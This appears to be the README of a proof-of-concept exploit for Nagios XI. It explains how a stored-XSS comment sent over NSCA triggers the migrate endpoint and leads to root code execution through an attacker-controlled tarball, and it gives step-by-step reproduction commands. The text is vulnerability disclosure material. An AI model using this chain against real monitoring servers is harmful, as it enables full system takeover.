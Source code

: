 Nagios XI’s default frontend settings make it hard for an admin to
ignore when a host goes down, so when they do access the page for
‘localhost’ to see what went wrong, the rest of the attack will run.
First, the PHP page for host details lacks proper sanitization, so it
inserts the crafted comment directly into the HTML, which will run a
JavaScript payload in the admin user’s browser. This payload will send a
POST request to the migrate server endpoint with parameters that cause
Nagios to initiate the migration to the server we set up. The migrate
server endpoint queues a command internally that ends up invoking a
`migrate.php` script with sudo (normally it would run as the Nagios
user, but this migrate script is a special case Nagios explicitly adds
to `/etc/sudoers`).

This PHP migration script populates and runs an Ansible playbook, which
uploads a script to our SSH server, runs it, and downloads the resulting
configuration bundle. Since we’ve deliberately modified the server to
break assumptions in their script, the playbook ends up downloading a
tarball that we fully control. The migrate script then copies an
“unbundling” Python script to a temporary directory along with our
tarball, and then the script extracts our tarball and runs the
unbundling script. Since we control the tarball’s contents, we craft it
to contain a file with the same name as the unbundling script so our
script is the one that ends up getting executed as root.

```
# 1. Stand up the malicious migration server, which includes generating the XSS
# payload. Note that docker cares about what directory you build from, so run
# the script from the migrate directory. The script will spawn a container that
# stays open on the terminal and listens until it receives the migrate connection.
> cd migrate/
> ./run_in_docker.sh <External IP of the migrate server>

# 2. In a new terminal, spin up a default Nagios XI server and a default Nagios XI
# client as shown below.
# On the Nagios Server, ensure there's a password or delete the password line
> vim /usr/local/nagios/etc/nsca.cfg

# Update `nsca_xss/send_nsca.cfg` on the client to match the password
# and encryption_method fields from the server.
> vim ./nsca_xss/send_nsca.cfg

# On the Nagios Server, ensure that the client machine is configured in the xinetd
# config. If it's not already allowed, Add a line to allow the specific IP or
# subnet, such as `only_from += 192.168.0.0`. The IP or subnet is where the
# xi_nsca_xss.py script will connect from, and doesn't need to be the same as
# the migrate server, but it may be, depending on your setup.
> sudo vim /etc/xinetd.d/nsca

# If you change the file, restart the xinetd service to apply the configuration
# as shown below, or use an equivalent command if not on Ubuntu 20.04.
> sudo systemctl restart xinetd.service

# 3. On the Nagios XI client, run the script that will connect as an NSCA client
# and deliver the XSS payload file generated by migrate/run_in_docker.sh
> cd nsca_xss
> python xi_nsca_xss.py --xss_payload_file ../migrate/xss_payload.html <IP/Hostname of Nagios Server>

# 4. Log into the Nagios web console as admin, at which point you may be warned
# that the client on localhost is down depending on your configuration. Navigate
# to Details -> Host Status, then click on localhost in the host entry table to
# see the host details. Once you visit this page, the XSS payload will start, so
# just wait for the demonstration payload to run.
> firefox http://nagiosbox.lan/nagiosxi/
# For demonstration purposes, the payload includes a visible comment with text
```